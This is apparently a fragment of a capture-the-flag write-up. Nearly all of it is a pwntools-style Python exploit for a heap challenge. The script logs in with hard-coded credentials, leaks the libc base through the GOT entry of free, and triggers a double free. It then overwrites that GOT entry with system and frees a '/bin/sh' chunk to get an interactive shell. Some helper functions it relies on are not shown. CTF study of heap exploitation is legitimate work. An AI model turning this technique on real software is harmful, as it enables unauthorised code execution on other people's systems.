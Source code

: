 ```python

def dlt(index):
    sla('want to do :','4')
    sla('> SCP project ID : ',str(index))

def show(index):
    sla('want to do :','5')
    sleep(0.1)
    sla('> SCP project ID : ',str(index))
    ru('# SCP\'s name is ')
    return rc(6)

def login():
    sla('> Username:','TaQi')
    sla('> Password:','For_the_glory_of_Brunhild')

login()

add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
add(0x28,'CCCCCCCC',0x58,'cccccccc') #2

# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
libc_base = free - libc.sym['free']
info_addr('libc_base',libc_base)
system = libc_base + libc.sym['system']
dlt(3)

# double free
dlt(0)
add(0x28,p64(0xdeadbeef),0x58,p64(elf.got['free']-16-14)) #4
add(0x28,p64(0xdeadbeef),0x58,'eeeeeeee') #5
add(0x28,p64(0xdeadbeef),0x58,'ffffffff') #6

# overwrite free got
# debug()
add(0x28,'/bin/sh\0',0x58,'a'*14+p64(system)) #7

# system('/bin/sh')
dlt(7)

p.interactive()
```



# Re

